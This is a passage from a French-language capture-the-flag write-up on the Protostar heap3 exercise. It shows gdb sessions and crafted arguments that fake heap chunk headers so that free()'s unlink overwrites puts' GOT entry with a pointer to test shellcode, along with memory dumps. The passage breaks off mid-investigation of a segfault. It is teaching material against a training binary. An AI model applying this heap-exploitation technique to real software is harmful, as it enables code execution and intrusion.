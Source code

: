 Maintenant il nous faut les adresses nécessaires à la résolution du challenge. Une fois les deux appels à `free()` passés, le programme utilise `puts()`. On va donc écraser l'adresse de `puts` dans la `GOT` pour quelle pointe sur du code à nous.

```
$ gdb -q ./heap3 
Reading symbols from /opt/protostar/bin/heap3...done.
(gdb) p puts
$1 = {<text variable, no debug info>} 0x8048790 <puts@plt>
(gdb) x/i 0x8048790
0x8048790 <puts@plt>:   jmp    *0x804b128
(gdb) p winner
$3 = {void (void)} 0x8048864 <winner>
```

Malheureusement comme dit plus tôt on ne peut pas simplement écrire l'adresse de `winner` car sinon `malloc` va tenter d'écrire à `winner+8`...

A la place on va y écrire l'adresse `0x804c00c` qui est une adresse des données du premier chunk où l'on placera un petit shellcode. Pour tester on va y placer l'instruction sigtrap qui sera attrapée par le débogueur :

```
(gdb) r `python -c 'print "\xCC" * 16'` `python -c 'print "B"*32 + "\xf0\xff\xff\xff\xf0\xff\xff\xff"'` `python -c 'print "C"*16 + "\x1c\xb1\x04\x08\x0c\xc0\x04\x08"'`
Starting program: /opt/protostar/bin/heap3 `python -c 'print "\xCC" * 16'` `python -c 'print "B"*32 + "\xf0\xff\xff\xff\xf0\xff\xff\xff"'` `python -c 'print "C"*16 + "\x1c\xb1\x04\x08\x0c\xc0\x04\x08"'`

Program received signal SIGSEGV, Segmentation fault.
0x08049921 in free (mem=0x804c058) at common/malloc.c:3643
3643    common/malloc.c: No such file or directory.
        in common/malloc.c
(gdb) x/wx 0x804b128
0x804b128 <_GLOBAL_OFFSET_TABLE_+64>:   0x0804c00c <- l'adresse de puts correspond à notre shellcode
(gdb) x/36wx 0x804c000
0x804c000:      0x00000000      0x00000029      0xcccccccc      0xcccccccc <- notre shellcode commence sur ces 4 derniers octets
0x804c010:      0xcccccccc      0x0804b11c      0x00000000      0x00000000 <- malloc a écrasé l'adresse du shellcode + 8 (écriture de FD)
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x42424242      0x42424242      0x42424242      0x42424242
0x804c040:      0x42424242      0x42424242      0x42424242      0x42424242
0x804c050:      0xfffffff0      0xfffffff0      0x43434343      0x43434343
0x804c060:      0x43434343      0x43434343      0x0804b11c      0x0804c00c
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
```

Victoire ! On a bien écrasé la `GOT` et en contrepartie `malloc` a bien écrit à `0x804c00c + 8`. Seulement on n'a pas l'exécution de code espérée mais encore un segfault.

Investiguons ce qu'il se passe en partant de l'instruction fautive :
